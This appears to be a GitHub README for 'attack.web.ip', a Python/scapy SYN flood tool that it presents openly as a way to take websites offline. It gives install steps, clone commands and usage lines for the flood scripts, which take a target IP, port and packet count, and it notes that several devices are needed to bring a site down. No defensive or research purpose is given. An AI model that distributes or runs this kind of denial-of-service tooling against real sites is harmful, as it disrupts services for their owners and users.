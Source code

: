 # attack.web.ip
A tool that helps in attacking sites, just extract the site's ip and port, and then you can attack the site and close it, but you need more devices to disable the site





## Dependencies
```
apt install python-scapy
apt install python3-scapy
```

## Installation

```
git clone https://github.com/klaiKOT/attack.web.ip
cd KLAI
```

## Usage

```
python3 py3_synflood_cmd.py -t ip -p port -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
usage: py3_synflood_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets
  --version, -v         show program's version number and exit

Usage: python3 py3_synflood_cmd.py -t ip -p port -c 1
```
